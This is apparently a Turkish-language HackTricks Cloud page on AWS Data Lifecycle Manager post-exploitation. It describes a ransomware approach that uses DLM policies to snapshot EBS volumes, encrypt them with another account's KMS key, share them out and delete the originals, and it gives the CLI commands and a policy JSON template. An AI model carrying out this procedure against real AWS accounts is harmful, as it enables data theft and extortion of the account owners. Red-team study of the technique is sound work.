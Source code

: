# AWS - DLM Post Exploitation

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** bizi takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Veri Yaşam Döngüsü Yöneticisi (DLM)

### `EC2:DescribeVolumes`, `DLM:CreateLifeCyclePolicy`

Bir fidye yazılımı saldırısı, mümkün olduğunca çok EBS hacmini şifreleyerek ve ardından mevcut EC2 örneklerini, EBS hacimlerini ve anlık görüntüleri silerek gerçekleştirilebilir. Bu kötü niyetli etkinliği otomatikleştirmek için, başka bir AWS hesabından bir KMS anahtarı ile anlık görüntüleri şifreleyerek ve şifrelenmiş anlık görüntüleri farklı bir hesaba aktararak Amazon DLM kullanılabilir. Alternatif olarak, şifrelenmemiş anlık görüntüleri yönettikleri bir hesaba aktarabilir ve ardından orada şifreleyebilirler. Mevcut EBS hacimlerini veya anlık görüntüleri doğrudan şifrelemek kolay olmasa da, yeni bir hacim veya anlık görüntü oluşturarak bunu yapmak mümkündür.

Öncelikle, örnek ID'si, hacim ID'si, şifreleme durumu, ekleme durumu ve hacim türü gibi hacimlerle ilgili bilgileri toplamak için bir komut kullanılacaktır.

`aws ec2 describe-volumes`

İkincisi, yaşam döngüsü politikasını oluşturacaktır. Bu komut, belirli hacimlerin her gün belirli bir saatte otomatik olarak anlık görüntülerini alan bir yaşam döngüsü politikası kurmak için DLM API'sini kullanır. Ayrıca anlık görüntülere belirli etiketler uygular ve hacimlerden anlık görüntülere etiketleri kopyalar. policyDetails.json dosyası, hedef etiketler, program, şifreleme için isteğe bağlı KMS anahtarının ARN'si ve anlık görüntü paylaşımı için hedef hesap gibi yaşam döngüsü politikasının ayrıntılarını içerir; bu bilgiler kurbanın CloudTrail günlüklerinde kaydedilecektir.
```bash
aws dlm create-lifecycle-policy --description "My first policy" --state ENABLED --execution-role-arn arn:aws:iam::12345678910:role/AWSDataLifecycleManagerDefaultRole --policy-details file://policyDetails.json
```
Bir politika belgesi için bir şablon burada görülebilir:
```bash
{
"PolicyType": "EBS_SNAPSHOT_MANAGEMENT",
"ResourceTypes": [
"VOLUME"
],
"TargetTags": [
{
"Key": "ExampleKey",
"Value": "ExampleValue"
}
],
"Schedules": [
{
"Name": "DailySnapshots",
"CopyTags": true,
"TagsToAdd": [
{
"Key": "SnapshotCreator",
"Value": "DLM"
}
],
"VariableTags": [
{
"Key": "CostCenter",
"Value": "Finance"
}
],
"CreateRule": {
"Interval": 24,
"IntervalUnit": "HOURS",
"Times": [
"03:00"
]
},
"RetainRule": {
"Count": 14
},
"FastRestoreRule": {
"Count": 2,
"Interval": 12,
"IntervalUnit": "HOURS"
},
"CrossRegionCopyRules": [
{
"TargetRegion": "us-west-2",
"Encrypted": true,
"CmkArn": "arn:aws:kms:us-west-2:123456789012:key/your-kms-key-id",
"CopyTags": true,
"RetainRule": {
"Interval": 1,
"IntervalUnit": "DAYS"
}
}
],
"ShareRules": [
{
"TargetAccounts": [
"123456789012"
],
"UnshareInterval": 30,
"UnshareIntervalUnit": "DAYS"
}
]
}
],
"Parameters": {
"ExcludeBootVolume": false
}
}
```
{% hint style="success" %}
AWS Hacking Öğrenin ve Pratik Yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking Öğrenin ve Pratik Yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
